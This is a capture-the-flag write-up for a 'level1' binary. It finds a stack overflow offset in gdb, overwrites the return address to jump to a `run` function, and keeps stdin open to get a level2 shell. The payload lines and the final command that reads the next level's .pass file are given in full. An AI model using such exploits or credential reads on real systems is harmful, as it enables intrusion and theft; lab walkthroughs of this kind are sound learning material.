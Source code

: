 First we start by looking the binary file using [dogbolt](https://dogbolt.org/). We can see that we must trigger the `run` function

Lets start simple just by a basic pattern overflow

We will use the pattern :
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

When executed in gdb we have:

```
(gdb) r
Starting program: /home/user/level1/level1
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
(gdb) x/s $esp
0xbffff730:      "uuuuvvvvwwwwxxxxyyyyzzzz"
```

Here we can see that we have we have un error in the at the end of the stack (esp)

So now we will launch the program the same way but this time we will remove "uuuuvvvvwwwwxxxxyyyyzzzz" + 4 bytes and add a 4 bytes shellcode instead(to acess the run function)

But When I do:

```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' | ./level1
```

I have :

```
Good... Wait what?
Segmentation fault (core dumped)
```

Here we can see that it enter the run function but we cant use the shell this is because the closed is closed at the end of the program

Now we will put it in a file :

```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' > /tmp/test
```

and

```Shell
cat /tmp/test - | ./level1
Good... Wait what?
whoami
level2
```

(cat -) keep the stdin open

Since the level1 file belongs to level2 we can now:
```Shell
cat /home/user/level2/.pass
```